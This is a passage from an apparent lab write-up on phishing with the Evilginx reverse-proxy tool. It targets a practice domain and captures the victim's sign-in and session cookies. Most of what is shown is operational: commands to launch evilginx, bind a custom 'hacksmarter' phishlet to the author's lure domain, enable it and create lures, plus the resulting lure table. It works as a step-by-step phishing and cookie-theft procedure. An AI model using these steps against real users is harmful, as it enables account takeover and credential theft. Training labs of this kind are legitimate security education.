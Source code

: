 have them try to  sign-in 

and then successfully capture their login

<img width="658" height="79" alt="Screenshot 2025-07-24 013931" src="https://github.com/user-attachments/assets/b6382756-2ff8-4fe0-8d60-c8c04ae923b5" />

## Stealing Cookies
<img width="1348" height="510" alt="Screenshot 2025-07-29 081947" src="https://github.com/user-attachments/assets/103b5f1b-cd00-4f31-beb8-ee0471dc9a83" />

<img width="1151" height="602" alt="Screenshot 2025-07-29 081956" src="https://github.com/user-attachments/assets/563b5691-2b0c-4742-befe-384d819a9c97" />

## Create a custom phishlet
To steal cookies from a user logging into hacksmarter-manufacturing.shop, we first create a custom phishlet `hacksmarter.yaml` and place it inside of /evilginx/phishlets/.

The phishlet will now appear as `hacksmarter`

startup evilginx
```
./evilginx
```

Add your hostname (mine is khangtran.shop) to your new phishlet (hacksmarter)
```
phishlets hostname hacksmarter khangtran.shop
```

Disable the old phishlet and enable the one we just created
```
phishlets disable wordpress.org
```
```
phishlets enable hacksmarter
```
<img width="756" height="89" alt="Screenshot 2025-07-24 015717" src="https://github.com/user-attachments/assets/9a5b6659-ba7a-4a50-b1db-d1c00e1d4fe5" />

now create  lure for the new phishlet
```
lures create hacksmarter
```

```
lures
```

output
```
: lures

+-----+----------------+-----------+------------+-------------+---------------+---------+-------+
| id  |   phishlet     | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |     
+-----+----------------+-----------+------------+-------------+---------------+---------+-------+     
| 0   | wordpress.org  |           | /vVRBAqQA  |             |               |         | ----  |     
| 1   | hacksmarter    |           | /VzJzLWOQ  |             |               |         | ----  |     
+-----+----------------+-----------+------------+-------------+---------------+---------+-------+     

:  
```
